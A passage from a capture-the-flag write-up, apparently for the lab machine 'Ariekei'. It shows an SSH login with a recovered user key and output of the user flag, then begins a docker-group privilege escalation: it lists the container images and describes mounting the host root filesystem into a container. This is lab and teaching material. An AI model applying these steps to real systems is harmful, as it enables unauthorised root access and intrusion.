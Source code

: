 
## Host 

We can get a shell on the host now using spanishdancer's ssh key -

```
$ ssh -i spanishdancer_key spanishdancer@10.10.99.5
Enter passphrase for key 'spanishdancer_key': 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Sep 26 14:08:39 2017 from 192.168.100.178

spanishdancer@ariekei:~$ cat user.txt 
<redact>


```

## PrivEsc

There are no kernel exploits publically available to root this box, and no other intended method. If you run `id -a`, you should see that spanishdancer has the `docker` group - 

```
spanishdancer@ariekei:~$ id -a
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)

```

This is exploited trivially to gain some fake-root access to the box by mounting the root file system to a container. This is documented here: <https://fosterelli.co/privilege-escalation-via-docker.html>

See what images are available:

```
spanishdancer@ariekei:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
waf-template        latest              399c8876e9ae        4 days ago          628MB
bastion-template    latest              0df894ef4624        4 days ago          251MB
web-template        latest              b2a8f8d3ef38        4 days ago          185MB
bash                latest              a66dc6cea720        11 days ago         12.8MB
convert-template    latest              e74161aded79        16 months ago       418MB
```

The `bash` container image can be used to mount the root fs to the /opt directory in the container
